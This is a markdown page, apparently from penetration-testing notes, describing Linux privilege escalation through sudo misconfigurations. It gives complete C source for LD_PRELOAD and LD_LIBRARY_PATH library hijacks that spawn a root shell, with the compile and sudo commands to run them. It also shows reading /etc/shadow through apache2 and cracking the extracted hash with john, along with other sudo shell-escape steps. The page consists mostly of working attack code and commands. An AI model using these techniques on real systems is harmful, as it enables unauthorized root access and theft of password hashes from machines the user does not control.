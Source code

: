```yaml
---
title: Sudo
parent: Method (Linux)
layout: default
nav_order: 2
---
```


## Environmental Variables
#### LD_PRELOAD
1. Use `sudo -l` to check if there is an `env_keep` option for `LD_PRELOAD`
2. Create a file (preload.c) with the file content below.
3. Compile preload.c to preload.so:\
   `gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c`
4. Run any allowed program using `sudo`, and set LD_PRELOAD to the compiled preload.so:\
   `sudo LD_PRELOAD=/tmp/preload.so apache2`

preload.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
​
void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

#### LD_LIBRARY_PATH
1. Use `sudo -l` to check if there is an `env_keep` option for `LD_LIBRARY_PATH`
2. Run `ldd` against those suspicious app, eg apache2:\
   `ldd /usr/sbin/apache2`
3. Randomly choose 1 of the library used (trial and error) for eg if we choose libcrypt.so.1
4. Create a file as below (library_path.c)
5. Compile the file into libcrypt.so.1:\
   `gcc -o libcrypt.so.1 -shared -fPIC library_path.c`
6. Run apache2 using `sudo` while setting LD_LIBRARY_PATH to the current directory (`.`) where we compiled the file: `sudo LD_LIBRARY_PATH=. apache2`

library_path.c
```
#include <stdio.h>
#include <stdlib.h>
​
static void hijack() __attribute__((constructor));
​
void hijack() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

## Shell Escape Sequence
1. List allowed to run via `sudo -l`.
2. Check for shell escape sequence at https://gtfobins.github.io/
3. Perform the sequence listed

## Abusing Intended Functionality
1. Some don't have escape sequence but somehow can abuse their function.
2. For example if run `sudo -l` and see apache2.
3. By providing apache2 with a config file:
   `sudo apache2 -f /etc/shadow`
   will throw you the full line 1 which is usually root.
4. Save the hash:\
   `echo '$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVl aXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0' > hash.txt`
5. Crack using john:\
   `john --format=sha512crypt --wordlist=/usr/share/seclists/rockyou.txt hash.txt`
6. `su` then type in cracked password.

## ALL:ALL as another user
1. Use `sudo -u anotheruser bash -i`, then you have access as that user.

## Known Low Privilege Password
1. Type `sudo su` and enter the current user password.
2. If allowed will gain root access.
3. If `su` not allowed can try the following:
   `sudo -s`
   `sudo -i`
   `sudo /bin/bash`
   `sudo passwd`